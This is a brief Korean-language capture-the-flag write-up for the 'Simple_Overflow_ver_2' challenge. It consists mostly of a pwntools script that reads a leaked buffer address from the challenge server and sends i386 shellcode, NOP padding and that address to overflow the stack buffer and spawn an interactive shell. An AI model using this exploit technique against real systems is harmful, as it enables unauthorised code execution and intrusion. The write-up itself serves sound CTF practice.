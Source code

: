 # Simple_Overflow_ver_2

![](1.PNG)   
data에 아무 값이나 입력하면 버퍼의 주소를 얻을 수 있다.   
이 값을 이용해서 BOF를 하면 된다.   
<br/>

```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3006)

context.arch = 'i386'
shellcode = asm(shellcraft.sh())

p.sendlineafter('Data : ', 'AAAA')
buf = int(p.recvuntil(':')[:-1],16)

p.sendlineafter('(y/n)', 'y')

payload = ''
payload += shellcode
payload += '\x90'*(136-len(shellcode)+4)
payload += p32(buf)

p.sendlineafter('Data : ', payload)
p.interactive()
```
